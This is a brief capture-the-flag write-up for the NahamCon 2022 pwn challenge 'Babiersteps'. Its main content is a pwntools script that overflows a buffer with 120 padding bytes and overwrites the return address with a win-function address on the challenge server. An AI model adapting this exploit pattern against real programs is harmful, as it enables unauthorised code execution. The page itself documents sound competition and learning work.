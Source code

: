 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2022 | Babiersteps Writeup
desc: Check out our writeup for Babiersteps for Nahamcon 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2022
parent: nahamcon_2022
category: pwn
challenge: Babiersteps
tags: "pwn, twh, python"
date: 2022-05-03T00:00:00+00:00
last_modified_at: 2022-05-03T00:00:00+00:00
---
```



> Solved By : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'challenge.nahamcon.com'
port = 32628

offset = 120
junk = b'A' * offset
win_addr = 0x4011c9

le_win_addr = p64(win_addr, endianness='little')
payload = junk + le_win_addr

conn = remote(host, port)
conn.recv(1024)
conn.sendline(payload)
conn.interactive()
conn.close()
```

![](https://i.imgur.com/oGDnIF7.png)